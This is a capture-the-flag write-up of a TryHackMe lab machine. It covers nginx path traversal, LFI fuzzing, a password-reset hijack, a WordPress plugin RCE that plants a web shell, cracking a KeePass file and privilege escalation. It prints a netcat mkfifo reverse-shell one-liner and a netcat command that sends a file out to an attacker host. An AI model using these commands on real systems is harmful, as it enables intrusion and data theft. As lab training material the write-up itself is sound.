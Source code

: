 
> [!NOTE] Quote
> Everything I lose, creates space for everything I need.

Tags: #Boot2root #tryhackme 
### Recon

During recon we find that a nginx welcome page is running on port 80.
### Enumeration 

On using dirsearch, The output revealed the presence of a **WordPress installation**.

I navigated to `/wordpress/` and found a broken or improperly configured WordPress site. While hovering over some random links on the page, I noticed that they pointed to `mountaineer.thm`, suggesting the website expects a specific virtual host configuration.

Edit the `/etc/hosts` file 

run WPScan to enumerate plugins and potential vulnerabilities. The scan revealed that the site was using a plugin called Modern Events Calendar Lite, which has remote code execution vulnerability documented in exploit DB

```
wpscan --url http://mountaineer.thm/wordpress/ -e u
```


The scan revealed a total of eight users, including k2, which matched the author name found on the website.

### Nginx Off-by-Slash Vulnerability

Since I didn’t gain much from the previous steps, I revisited the dirsearch output and noticed an unusual directory: `/wordpress/images` This path stood out because it's not a standard directory in a typical WordPress installation (or at least not one that usually exposes anything meaningful). When I tried to access the page, it returned a `403` Forbidden error

On intercepting the request and manipulating the path to attempt accessing sensitive files, such as:

```
/wordpress/images../etc/passwd
```

The response returned the contents of `/etc/passwd`, confirming a path traversal vulnerability due to improper handling of URL paths in the web server configuration.

fuzz the vulnerable endpoint to identify other accessible files. I used FFUF with a wordlist targeting common LFI paths and saved the output to a file:
```sh
ffuf -u 'http://mountaineer.thm/wordpress/images..FUZZ' \
     -w /usr/share/seclists/Fuzzing/LFI/LFI-linux-and-windows_by-1N3@CrowdShield.txt \
     -mc 200 -o fuzz.txt
     ```

This command searches for any valid LFI payloads that return a 200 OK response, indicating a successful file read.

To extract only the working paths from the output, I used:

```sh
cut -d'  ' -f1 fuzz.txt > burp_wordlist.txt
```

This generated a clean list of payloads, which can further be used in burp intruder for automating testing.

### Password Reset 

Inside `/var/mail/www-data`, I found an email containing a password reset link for the user Everest.

However, when I visited the link, it had already expired. The reset page indicated that I could request a new password reset by submitting a username. This gave me an idea — what if I used this same functionality to reset the password for the admin account?

I submitted the username `admin`, and the site responded by saying a reset link had been sent to the registered email.

To intercept that link, I returned to BurpSuite Intruder, using the same LFI payloads to monitor for new entries in the webmail logs. After scrolling to the bottom of the response from `/var/mail/www-data`, I found a new password reset link , this time for the admin user. Click the link and reset the password 

While reviewing the responses from BurpSuite Intruder, one of the LFI payloads successfully retrieved `/var/log/lastlog`, which contained entries revealing a `hostname:adminroundcubemail.mountaineer.thm`. I added the hostname to my /etc/hosts file to resolve it locally, on visiting the domain, I was redirected to a Roundcube webmail login page.

### Roundcube Webmail

The page prompted for a username and password, so I initially attempted default credentials like `admin:admin`, but that didn’t work. Recalling that the admin’s display name in the article was previously identified as K2, I tried logging in with `K2:k2 `— and it worked.

After logging in as K2 we find an email in the inbox containing passwords for K2's account 
, also found in the sent folder a message addressed to a user named Lhotse. The email included several personal details about Lhotse, such as first name, surname, and other identifying information.

> This immediately reminded me of how data is typically structured when using [CUPP](https://github.com/Mebus/cupp) (Common User Passwords Profiler) — a tool that generates personalized wordlists based on user information

#### Exploiting CVE-2021–24145

Earlier I recalled that the site was running a vulnerable plugin:` Modern Events Calendar Lite.` Exploit-DB had a working exploit for authenticated Remote Code Execution.

Since I already had valid admin credentials from earlier enumeration, I used them to log in and run the exploit. It successfully uploaded a web shell (shell.php) to the target server.

The shell used was p0wny@shell, confirming that the exploit worked and we had planted a basic web shell.

To gain a more stable and interactive shell, I executed the following reverse shell payload on the target:
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <your-ip> <your-port> > /tmp/f
```
Also setup a NC listener `nc -nlvp 4444`

To stabilize the shell and make it interactive, I **ran**
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

Ctrl + Z

stty raw -echo; fg

ENTER
ENTER
```

### Cracking KeePass and Lateral Movement

discovered a user directory at `/home/lhotse` containing an interesting file: `backup.kdbx`, which is a KeePass database file.

transfer the file to yo own machine 
On the victim machine:
```sh
nc <your-ip> <your-port> < Backup.kdbx
```
On the attacker machine:
```sh
nc -lvnp <your-port> > Backup.kdbx
```

Inside the database, I browsed through the entries and found Entry 3, which contained credentials for the user `kangchenjunga`.Cracking the KeePass File
#### making a custom wordlist 

To access the contents of `Backup.kdbx`, I needed to crack its master password. I used `keepass2john` to extract the hash:

```
keepass2john Backup.kdbx > hash.txt
```

Then, I attempted to crack it with John the Ripper using common wordlists like rockyou.txt, but none of them worked

I recalled that the file was located under `lhotse’s` home directory, and based on earlier enumeration, I had access to Roundcube webmail data linked to this user. So I used that contextual information to generate a custom wordlist using `CUpp` (Common User Passwords Profiler):

> I filled in details gathered from Roundcube, such as the user’s full name, email, birthday, etc.

```
john hash.txt --wordlist=file.txt
```

##### KeePass CLI

After successfully cracking the KeePass password, I used `Kpcli` (KeePass CLI) to open the `Backup.kdbx` file. I entered the cracked password, and it worked. Browse around and find the pass for the user 

Try logging in as `kangchenjunga` via ssh. Get the first flag
### Privilege Escalation

Type `ls -la`, we find a file name `bash_history` and on opening that file we see the root password in plain text


### References

https://blog.devops.dev/mountaineer-ctf-tryhackme-writeup-c46a267387e5